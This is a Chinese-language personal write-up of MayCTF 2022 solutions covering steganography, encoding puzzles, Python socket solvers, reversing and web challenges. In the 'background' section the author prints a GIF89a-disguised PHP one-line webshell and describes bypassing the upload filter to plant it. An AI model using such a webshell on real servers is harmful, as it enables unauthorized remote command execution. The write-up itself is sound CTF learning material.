# MayCTF2022个人赛 WP 
**aldlss**
***
MayCTF，本来是在别的地方看到了。当时开始的时候因为比较忙和懒，大概是没有准备参加的。后来1号晚上的时候看群里在聊题目，看到有小紫这题，因为对题目背景还是挺感兴趣的，于是就马上做看看了

[toc]

## 第一日
### 小紫
期间错误的尝试就不多说了，我还一度怀疑过shojo是什么意思，最后查了查发现原来是少女的意思= =
后面看到“八云紫老”这一串字感觉是不属于原来这个图的，然后而且还有没话没说完的感觉，又看到网上说ctf图片有个经典题型就是改长度宽度，于是就参考了一下png文件头，[PNG文件格式解析](https://blog.csdn.net/weixin_46352852/article/details/124707547)（这个还有例子，喜欢），并照着改了一下，果然是现形了，于是解压，看见bmp，以及hint:
<center>|||</center>

这个hint也是比较乐的梗图了，应该主要是想提示还有一个字没出来吧。所以判断应该差不多也是要改高度，于是也搜了搜bmp图片的文件头[常见图片格式分析-bmp，png](https://www.cnblogs.com/robin-oneway/p/13932982.html)（这个也有例子，喜欢）。不过bmp似乎不像png一样，改大了无所谓，只是会下面一片空，这个好像改大了直接就打不开了，于是就最后一点一点地加，也算是成功了：
<center></center>

可以看到，在右上角，很小一撮，还以为会是也在下面来着。flag也在上面，出题人最后也是不忘把“婆”字补上，祝你被脸滚键盘（
PS：刚刚写wp的时候发现，似乎长度或宽度有缩减的png在vscode上不能直接预览（？或许也不失为一种快捷判断方法

### NO COPY
记得大概要复制一个网页的内容才能解题，但是不给复制，这个还是很简单的，我做的时候已经是100分题了，就是直接F12审查元素然后复制html元素，然后自己建一个html打开就可以复制了

### rack your brain
这个其实也比较简单，一开始是佛又曰开头，一眼那个佛祖加密，不过版本还挺多，找到这个版本的还不太容易[与佛论禅加密/解密](http://www.atoolbox.net/Tool.php?Id=1027)。解密之后是一串
```brainfuck
++++++++[>>++>++++>++++++>++++++++>++++++++++>++++++++++++>++++++++++++++>++++++++++++++++>++++++++++++++++++>++++++++++++++++++++>++++++++++++++++++++++>++++++++++++++++++++++++>++++++++++++++++++++++++++>++++++++++++++++++++++++++++>++++++++++++++++++++++++++++++<<<<<<<<<<<<<<<<-]>>>>>>>>---.<+.>>-------.<<++.>>-----.<<+++.>>+++++++.----.<<++.-------.>>---.<<--.++.--.<<<++++++.>>>>>--.<<++.>----.>----.<---.<<<<<++++++++++..>>>>>>---.<-.>+++++++.<<<<<...>>>>>+++++++++++.
```
因为之前听说过，所以大概猜想是`brainfuck`语言了，不过要找个编译器还是不简单，不过最后通过bing还是找到了[brainfuck 在线工具](https://www.w3cschool.cn/tryrun/runcode?lang=brainfuck)，然后就出结果了`mayctf{what_a_6rainf**ker666}`(用语还是要文明)
***
嗯，2号凌晨就写了这三道，写完还看了看别的，但是有点不太会写，看时间也很晚了，于是就睡觉了。不过题目写下来倒是觉得挺有趣的，因此也是想继续写下去的。~~接下来写题顺序也记不清了，现在也看不到了，于是就想到哪个写哪个吧（~~ 反转了，原来居然有备份，那接下来就按解题顺序写了

### sign_in
整个白天和晚上都没什么进展，甚至琢磨怎么进频道琢磨了好久，因为不想升级手机qq，一开始想用安卓模拟器装，结果qq闪退；然后寻思用WSA装，结果也闪退；最后寻思手机的手机分身应该可以——确实可以，然后我原来的qq也被升级了。大号还进不了频道，最后只能用小号进了频道，得到了flag。某种程度上说，这个题目的难度不亚于其他题目（？

## 第二日
### baby_typing_game
之前做了些别的nc题目都不太行，这个题目其实更像是给了我一点启发，让我领悟到了其实完全用python解决这种题目才是正道，毕竟总不可能真的抄999遍（
基本上就是照抄就行了，感觉甚至考的字符串的运用和网络连接的使用，不过python还是比较容易写的。开头的sha256验证一开始有点唬到我了，不过一想才4个未知的，直接暴力应该也是可以的。
因为源码被我拿去魔改写另一题了（下面会提到），于是暂不可考，这里就只贴出sha256验证的部分的吧，毕竟还是有不少题用到这个的
```python
import hashlib
def sha(origin:str,ans:str)->str:
    aaa="0123456789QWERTYUIOPLKJHGFDSAZXCVBNMqwertyuioplkjhgfdsazxcvbnm"
    for a in aaa:
        for b in aaa:
            for c in aaa:
                for d in aaa:
                    test=a+b+c+d+origin
                    if hashlib.sha256(test.encode("utf-8")).hexdigest()==ans:
                        return a+b+c+d
```
这道题其实凌晨跑出来的，但是当时网站暂停了，提交不了flag，所以就早上起来交了

### get_my_number
早上上数据结构课也无聊，于是直接开启远程桌面写了点题- -。由于远程桌面是有点不方便操控的，于是就把题目都大概看了一下，看看有没有那种操作比较少的或者只有单个文件的那种，于是就看到pwn的这些题目了。
这个题目其实看源码我也是有点没搞明白具体原理是什么，只知道大概是比较什么。不过鉴于通过人数那么多，我觉得是不是只要随便输入一串巨大的数字就可以了？
还真是

### get_my_float
于是继续看pwn第二题，源码也写得很清楚了数值为0.618的时候通过，然后让我们写入字节，主要考察的是浮点数的底层表示吧。
这里找到个网站[Double (IEEE754 Double precision 64-bit) Converter](http://www.binaryconvert.com/convert_double.html),然后通过能输入16进制的网络工具输入就好了。不过值得注意的是，一般用的都是小端法，所以这串字节`0x3FE3C6A7EF9DB22D`得反着输入。

### cuora_and_her_shell
这道题最后也是没写出来，似乎是要写shellcode之类的，源码还很贴心地直接把写入的代码运行了。然而直到最后也是没有找到写进去成功的，大概还是有些问题没考虑清楚，令人感叹。或许我该用上一题的网络工具发送的而不是用Python，忘记了，沉迷Python了（

### thing dog
这时候已经上完课回来了，所以开始写这些比较要工具的了。这题是音频文件，看到群里唠嗑说分离左右音频，我马上打开我的Au进行分离，确实有个声道是一段不明所以的英文。我还真没整明白，上网搜还以为要看频谱图之类的，结果发现都没有，最后看群里才发现是那个北约呼号。结果感觉还是有些对不上，最后又看了下群里的记录，发现有人居然用的谷歌识别，学到许多，但还是不对。
最后突然悟了，它把左右括号和下划线的英文也读出来了，怪不得有些不在表内的英文，比如`underline`之类的。原来这样也行，怎么你们都会啊QAQ 

### typing train
这题昨晚就一直在写了，不过不是我在写，是js帮我在写。我觉得大概是真的要6666次才行，但想到那么多人过题又觉得是不是不对劲，最后还是写了一个油猴脚本狂暴帮我typing，后面还加了对于字符长度的判断。
```js
// ==UserScript==
// @match        http://124.220.41.254:20002/*  (这里要修改成这样，使用通配符)
(function() {
    'use strict';
    let a=document.getElementsByClassName("typing")[0].textContent;
    if(a.length==32){
        document.getElementsByName("input")[0].value=a;
        document.getElementsByTagName("form")[0].submit();
    }
})();
```
写完上一题之后没多久去那个页面看了看，发现出错了，然后旁边flag也出来了，虽然有点不明所以，不过大概是解出来了。

### background
看到来新题了，于是马上去看了看。好家伙，上传东西，得益于写sheep的时候搜索的大量资料，猜测大概使用一句话木马或者其变体来使用webshell。
最简单的一句话木马果然不行，后来看到有个gif89a图片文件头欺骗的方法[GIF89a图片头文件欺骗](https://blog.csdn.net/piaolankeke/article/details/5872876)，就试了一下:
```php
GIF89a
<?php @eval($_GET["aya"]); ?>
```
大概是这样，源代码成功之后被我删掉勒，甚至微软安全中心还报毒（
上传的时候还拦截了请求修改了一下后缀，不过后来看服务器里面似乎改没改后缀的都传进去了，大概是不改也没什么问题吧- -
不过修改背景图片也是挺好玩的
PS:吐了，刚刚写这个wp的时候写到这里之后就看到文档时不时抽搐，时有时无，关掉重开之后文件居然就无了，还好做了备份，不然得吐血。后面试了一下，黏贴保存之后关掉再打开，文件又无了。换位置换名字都是这样，我都开始怀疑是不是vscode对md的支持有什么问题了。后来想到，刚刚我不是写了一句话木马嘛，想到之前微软安全中心给我报毒的事，寻思是不是微软安全中心给我删掉了。结果一看，好家伙，还真是，躺了一大堆“风险”文件，难绷了。

### easy_md5
这题是比较早写的，一开始看到无法显示的字符的时候就觉得应该要用十六进制，然后我首先选择的是把收到的数据输出成文本，然后把十六进制格式写出来，再用md5计算，结果怎么算都不对，遂先放弃了
后面写完`baby_typing_game`之后，看到这题，就觉得:Why not Python?于是用python开始写，主要也是对字符串要处理一下，除此之外就是一些进入流程，起名啊，看血量啊之类的，为了贴合流程基本上是写一点就连上去试下，大概也算是攻击服务器了（？
写完之后挂着机就睡午觉去了，醒来就发现血量都负数了还没结束。后来一问出题人，答曰看源码，才想起来还有源码，都忘记了（
一看，原来还要退出的，就是说还要检测到负血退出，算是加多点判断吧。还有就是可能是服务器问题还是怎么样，有时候消息会连在一起发送给我，直接导致我的python一直在wait信息，卡死了就，后面优化了一下，也不知道有没有起作用吧
如下是代码：
```python
import hashlib
import socket
import time

def main():
    fd=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    fd.connect(("124.220.41.254",11111))
    st=fd.recv(1024).decode("utf8")
    print(st)
    print(fd.recv(1024))
    fd.settimeout(1)
    fd.send("1".encode("utf8"))
    print(fd.recv(1024))
    print(fd.recv(1024))
    fd.send("1".encode("utf8"))
    print(fd.recv(1024))
    for i in range(200000):
        print(fd.recv(1024))

        print(i)
        time.sleep(0.001)

        fd.send("2".encode("utf8"))
        time.sleep(0.01)

        print(fd.recv(1024))
        st=fd.recv(1024).decode('utf8')
        print(st,st[0])
        if(st[0]=='-'):
            break
        
        fd.send("1".encode("utf8"))
        time.sleep(0.01)
        print(fd.recv(1024))
        st=fd.recv(1024)
        print(st.decode('ISO-8859-1'))
        st=st.decode('ISO-8859-1')
        st=st[:st.find("\nyour")].encode('ISO-8859-1')
        fd.send(hashlib.md5(st).hexdigest().encode("utf8"))
        time.sleep(0.01)
        print(fd.recv(1024))
        
    fd.send("3".encode("utf8"))
    print(fd.recv(1024))
    print(fd.recv(1024))
    print(fd.recv(1024))
    print(fd.recv(1024))

if __name__ == "__main__":
    main()
```

### sheep
游戏是羊了个羊翻版据说，但是我是没玩过的。自然是不可能玩游戏的，直接F12，一开始还以为真的通过就行了，还寻思是不是要改cookie，于是把记录里的第二关通过次数改成了1，结果没反应。
后来直接一看源码才发现原来已经写着了:

于是跑了一下那串代码，发现是要“hack brower”，一开始还以为是什么术语或者黑话，搜了一下但是没什么相关的。看到群里说需要什么伪造什么，我寻思就是User-Agent或者cookie吧，注意到网站每次都会把本地cookie中的user设为guest，我寻思大概是脱不了关系的，但是用火狐的这个也没有反应，我还寻思是不是我什么没考虑到

后来写别的题目才发现，用这个发送根本不会刷新网页，感觉不如

于是用这个把User-Agent该为hack并且把cookie中的user改成admin后，成功获得了flag
不过这些错误倒是一定程度上让我学到更多知识，甚至考虑到hack是不是要用webshell进去之类的- -，前面那道题能很快写出来大概也多亏了在这里提前有了解到吧。

### 举报小黑子&鬼人正邪的挑战
下午主要试了试这两题，不过都失败了。小黑子这题用了网上的xss平台，然而并没有反应，搞了好久也没什么进展，润了。
正邪这题，给了1500个碎片，然后每30个碎片有一个下划线，我猜测是每30个一行或者说一列之类的，最后把所有碎片拼起来这样子。于是用react写了一下，最后的结果是有点东西又有点不明所以的图片

也试了改了各种参数和翻转之类的，都没有什么效果，于是只好忍痛放弃。

### hello_net
实在别的题也没思路了，于是装了IDA去看了看`Reverse Engineering`的题。这道题还是比较舒适的，正如频道里说的，会用IDA就可以，flag直接就写着了。

### secsome_cfg
按着解题人数做的，然后就是这题了。这题一开始也整不明白，hint说的cfg我也没想明白是什么意思，只能想到之前AI画图的那个`CFG Scale`了（
后来就直接上IDA，这流程也没看明白是什么意思，想着看看流程图的，结果IDA跟我说节点太多了，要调高上限才可以打开，后来把`1000`调到了`100000`，终于打开了。不得不说确实是很震撼的，居然是能在流程图画图，不知道怎么做到的。
左下角就是flag，但是我是真的看不清是什么= =

最后三个单词大概猜出来是`control flow graph`，也就是所说的`cfg`，上面一个是`secret`，然后最上面那个单词琢磨了好一会才想到原来是`$(author)`，应该是要用作者替换。看到题目说明里还专门把出题人`secsome`标了出来，大概是八九不离十了。
当然最后还是因为眼瞎的问题试了好久flag，以至于有staff在后台看不下去了，提醒了一下我flag有地方看错了，可是这真的看不清楚啊5555

## 最终日
### typing_game_revange AKA baby_guess_me
这道题是`baby_typing_game`的升级版，666次之后随机数就不给出了，需要自己计算。是找到一些说法的：[谈谈梅森旋转：算法及其爆破](https://liam.page/2018/01/12/Mersenne-twister/)，大概是32位数的话知道前624位之后就可以预测后面的数了，不过具体原理及方法我也没来得及看，是在网上偷的下面这位大哥的代码：[伪随机数之梅森旋转算法的逆向求解](https://blog.csdn.net/hacker_zrq/article/details/121419286)。
然后具体操作的py代码如下：
```python
import hashlib
import socket

from mt import * #mt就是从上面那个博客拷贝的代码

def sha(origin:str,ans:str)->str:
    aaa="0123456789QWERTYUIOPLKJHGFDSAZXCVBNMqwertyuioplkjhgfdsazxcvbnm"
    for a in aaa:
        for b in aaa:
            for c in aaa:
                for d in aaa:
                    test=a+b+c+d+origin
                    if hashlib.sha256(test.encode("utf-8")).hexdigest()==ans:
                        return a+b+c+d

def main():
    mt=MT19937()
    fd=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    fd.connect(("124.220.41.254",11115))
    st=fd.recv(1024)
    print(st)
    st=fd.recv(1024).decode("utf8")
    print(st)
    fd.settimeout(1)
    MTL=[]
    fd.send(sha(st[st.find("+")+1:st.find(")")],st[st.find("=")+3:st.find("\nGive")]).encode("utf-8"))
    for i in range(624):
        st=fd.recv(1000)
        print(st)
        try:
            st=fd.recv(1000).decode("utf8")
        except:
            pass
        finally:
            MTL.append(int(st[st.find(".")+2:st.find("\nYo")]))
            print(MTL[i])
            fd.send(st[st.find(":")+2:st.find("\nYo")].encode("utf8"))
    for i in range(624,999):
        st=fd.recv(1000)
        print(st)
        predi=mt.predict(MTL[i-624:i])
        MTL.append(predi)
        try:
            st=fd.recv(1000).decode("utf8")
        except:
            pass
        finally:
            fd.send(f"Mia is friendly. {MTL[i]}".encode("utf8"))
    print(fd.recv(1024))
    print(fd.recv(1024))
    print(fd.recv(1024))

if __name__ == "__main__":
    main()
```

### find_it
本来以为11:30就结束了，后来到点一看，原来是PM，于是就继续写了。这题我一开始确实不理解怎么会这么多人解出来，那么简单的吗?怎么写啊。翻了html文件也没有答案，然后这时候已经配备了web扫描工具，于是开扫，扫出来居然发现有个`README.md`。打开来看了看，只见写的是`Maybe there are something in css`………………
？
原来是找css，最后是在`index3.css`找到了这串神秘代码`bWF5Y3RmezBoX3lvM19jYTNfZjFuZF9pN30K`，一开始以为这就是答案了，试了一下不对于是想到大概是base64，成功解密。怪不得说可能有非预期解，大概不看readme也是可以解的

### shape_secret
这题是新出的，本来看到有一个一页多的文档就退缩了，后来看到连着有两个人解出来，就觉得不太对劲，遂去看了一下文档。
注意看这里

有一个专有名词`Westwood`，我一开始就想到那个制作命令与征服的游戏厂，但觉得不太对劲，寻思会不会还有别的意思，然而发现基本没有，于是又检索了一下另一个文件的后缀`.shp`和西木什么关系，发现这个大概是西木游戏里的一个特殊的图像文件格式。
那么可以大概推断，肯定是有相关的编辑器或者阅览器的。果不其然，有的：[Image_Shaper](https://github.com/LinKueiOminae/Image_Shaper)，于是下载下来就可以看了
不过这个一开始还以为是`θ`来着= =

### maze
hint也说得比较清楚了，要先用`UPX`脱壳，不过4.0.0的版本好像脱不了，得用3.X的版本。
其实应该是不用怎么读源码逻辑的

这些不明所以的字符其实每行分别排下来就是迷宫的样子，只要输入`WASD`能从左上角走到右下角并且不撞墙就行了，然后对输入取sha256就好了

### mixture
这题说是多语言混杂，但我觉得~~还是暴露了你是个go吹，变着法子吹你那go~~基本上要看的运行逻辑的代码都是go写的，其他的基本都是干扰项。虽然不会go，但还是能大概猜猜是什么意思的，不确定的也可以搜一下。
主体代码大概是这个：
```go
float main() {
	uint8_t key = GetKey();
	
	/*key=byte{0b110001, 0b110100, 0b110001, 0b110101,
		0b111001, 0b110010, 0b110110, 0b110101,
		0b110011, 0b110101, 0b111000, 0b111001,
		0b110111, 0b111001, 0b110011, 0b110010,
		0b110011, 0b111000, 0b110100, 0b110110,
		0b110010, 0b110110, 0b110100, 0b110011,
		0b110011, 0b111000, 0b110011, 0b110010,
		0b110111, 0b111001, 0b110101, 0b110000}*/

	char[] encryptCode = GetCode();

	/*char{0o111, 0o57, 0o157, 0o172, 0o163, 0o104,
		0o170, 0o66, 0o150, 0o111, 0o141, 0o115,
		0o146, 0o130, 0o132, 0o127, 0o160, 0o157,
		0o125, 0o120, 0o66, 0o115, 0o156, 0o126,
		0o165, 0o130, 0o162, 0o62, 0o116, 0o62,
		0o70, 0o142, 0o116, 0o62, 0o142, 0o125,
		0o127, 0o141, 0o141, 0o61, 0o150, 0o57,
		0o147, 0o155, 0o105, 0o107, 0o150, 0o113,
		0o172, 0o112, 0o104, 0o166, 0o131, 0o70,
		0o146, 0o132, 0o171, 0o155, 0o150, 0o102,
		0o172, 0o66, 0o107, 0o121}*/

	char[] decryptCode = AesDecrypt(encryptCode, key);
	puts decryptCode;
	return 0;
}
```
注释的部分是最后赋给key和code的值，其实内部就是绕了几层弯赋值，最后的解密函数是这样的：
```go
func AesDecrypt(cryted string, key []byte) string {
	crytedByte, _ := base64.StdEncoding.DecodeString(cryted)

	block, _ := aes.NewCipher(key)
	blockSize := block.BlockSize()
	blockMode := cipher.NewCBCDecrypter(block, key[:blockSize])
	orig := make([]byte, len(crytedByte))
	blockMode.CryptBlocks(orig, crytedByte)
	orig = PKCS7UnPadding(orig)
	return string(orig)
}
```
主要还是得看到先经过了一次base64解密，以及Aes的iv参数大概就是key的前16个字节

这样解密就可以出答案了
***
至此，过了的19道题就都写完了，不得不说确实是很有意思的比赛。后面的团体赛我也参加了一下，不过只写了一道题。但是既然是以车万开始，那么也以车万作结吧

## EX
### 禁忌 四重存在
这题确实扣题了，这个文件里面总共存在着四个文件，分别是png（源文件）、jpg、gif以及zip，不过按顺序来说，我是倒着把她们分离出来的。
首先是拉到最下面可以看到zip的文件尾，具体格式可以看这个：[压缩包Zip格式详析](https://blog.csdn.net/qq_43278826/article/details/118436116)，说的确实很好。这块就是把文件头的`50 4b 03 04`给替换掉了，改回来就可以分离了。

关于怎么找到这块，我使用文件尾的偏移量计算的，不过看起来似乎会有更好的查找方法。如果分离出来解压不了，用工具修复一下就可以了。
解压出来是`禁忌-四重存在.tiff`，打不开，一开始以为是tiff文件头之类的格式问题，后来用binwalk一扫，感觉不简单了

Zlib文件，于是上网查找了一下该怎么做，发现用python提取解压挺方便的，[CTF 隐写 关于ZLIB的解压](https://www.freesion.com/article/4333303676/)，这个文章挺好的，关于思路上对我也有点启发。最后把前面不明所以的东西删掉后，用如下代码实现提取：
```python
import zlib
datas=[0,0x238F3,0x4AC7B,0x83B41,0xDA011,0x13D83D,0x179333,0x551551515151]
with open(r"E:\aldlss\Downloads\IDM\mix_secret\禁忌-四重存在.tiff","rb") as f:   #当时是随便找了个目录写的题（
    len=len(datas)
    sum_data=f.read()
    for i in range(len-1):
        data=sum_data[datas[i]:datas[i+1]]
        now_data=zlib.decompress(data)
        # print(now_data)
        with open(rf"E:\aldlss\Downloads\IDM\mix_secret\{i}.txt","w") as fw:
            fw.write(now_data.hex())
            fw.close()
```
提取出来是6个巨抽象的数字字符文本，随手截一段`000fe000000fe010000ff000000fe010000ff000100ff010000ff000100fd000000fe010100feff0000fe000100fe010100ff010100fe000100feff0100f`后面想了想，大概是十六进制编码，然后大概是RGB或者RGBA编码，每两个字符代表一个颜色值这样子。
把几个文档综合了起来，用python画了一下，调了各种大小和格式，总是是一些没什么意义的东西。最后看到源文件是1467*1080的。这个我熟啊，那串字符的总长度12674880就等于1467\*1080\*4\*8啊，于是坚定了肯定有东西的想法，但横着画怎么都不对，最后才发现是竖着画；而且是倒着存储的，所以rgba的值需要反着读，代码如下：
```python
from PIL import Image
import numpy as np
import matplotlib.pyplot as plt
def paint(width:int,heigth:int,channels:int,file:str):
    img=Image.new("RGB" if channels==3 else "RGBA",(width,heigth))
    with open(file,"r") as f:
        for i in range(width):
            for j in range(heigth):
                a=int(f.read(2),16)
                b=int(f.read(2),16)
                g=int(f.read(2),16)
                r=int(f.read(2),16)
                img.putpixel((i,j),(r,g,b,a))
    plt.figure("Flandre")
    plt.imshow(img)
    plt.show()
    img.save("./www.png");

def main():
    paint(1080,1467,4,r"E:\aldlss\Downloads\IDM\mix_secret\sum.txt")

if __name__ == "__main__":
    main()
```
结果图如下：
